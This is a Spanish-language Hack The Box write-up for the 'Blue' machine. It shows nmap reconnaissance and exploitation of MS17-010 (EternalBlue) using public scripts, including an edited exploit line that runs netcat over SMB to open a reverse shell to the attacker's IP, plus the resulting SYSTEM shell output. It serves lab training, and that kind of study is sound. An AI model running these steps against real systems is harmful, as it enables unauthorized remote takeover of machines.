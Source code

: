 ```yaml
---
layout: single
title: HTB-Blue
excerpt: "WriteUp de la máquina HTB Blue -- Type: Easy"
date: 2022-03-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/blue/blueicon.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/blue/blueicon.png"></centre>


[Maquina](https://app.hackthebox.com/machines/51) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.40 
```

```bash
Nmap scan report for 10.10.10.40
Host is up (0.042s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Al ver que el puerto 445 se encuentra abierto y que el SO es un Windows 7 SP1 podemos probar a usar el EternalBlue ya que podría ser vulnerable.

[MS17-010](https://github.com/worawit/MS17-010)



## Explotación

```bash
git clone https://github.com/worawit/MS17-010
```

Primero, vamos a comprobar que el Windows sea vulnerable a este exploit y para ello vamos a usar el **checker.py** dandole permisos de administrador y cambiando un trozo de linea del código.

Donde poner username, ponemos un carácter porque si no, no podría funcionar el script salvo que el usuario **guest** este habilitado. 

```bash
Script for
- check target if MS17-010 is patched or not.
- find accessible named pipe
'''

USERNAME = 'a'
PASSWORD = ''

NDR64Syntax = ('71710533-BEBA-4937-8319-B5DBEF9CCC36', '1.0')

```

Ejecutamos el Script poniendo la direccion ip de la máquina Blue.

```bash
python2 checker.py 10.10.10.40
```

imagenchecker

Al comprobar que funciona correctamente, procederemos a cambiar la misma parte del contenido en el fichero **zzz_exploit.py** y también dandole permisos de ejecución.

Buscamos dentro del archivo por **cmd** y comentamos las mismas lineas que en lo siguiente y descomentamos la única que se va a ejecutar y cambiamos a lo siguiente.

Liena a insertar con el cual ejecutaremos el netcat por el servidor smb de Kali y nos haremos una reverseShell a nuestro equipo teniendo el puerto 443 a la escucha con el comando **nc -lvp 443
**

Linea a introducir:
```bash
\\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443
```

Parte del archivo a cambiar:
```bash
def smb_pwn(conn, arch):
        #smbConn = conn.get_smbconnection()
         
        #print('creating file c:\\pwned.txt on the target')
        #tid2 = smbConn.connectTree('C$')
        #fid2 = smbConn.createFile(tid2, '/pwned.txt')
        #smbConn.closeFile(tid2, fid2)
        #smbConn.disconnectTree(tid2)
         
        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c \\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."

```

Servidor SMB con **impacket**
```bash
impacket-smbserver share $(pwd) -smb2support

```


Procederemos a la ejecucion del script.

```bash
python2 zzz_exploit.py 10.10.10.40
```

Y comprobaremos que somos **nt authority*

```powershell
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.40] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::ec27:2916:8a1f:869e
   Temporary IPv6 Address. . . . . . : dead:beef::a4ad:6053:ef18:5158
   Link-local IPv6 Address . . . . . : fe80::ec27:2916:8a1f:869e%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.40
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%11
                                       10.10.10.2

Tunnel adapter isatap.{CBC67B8A-5031-412C-AEA7-B3186D30360E}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>
```
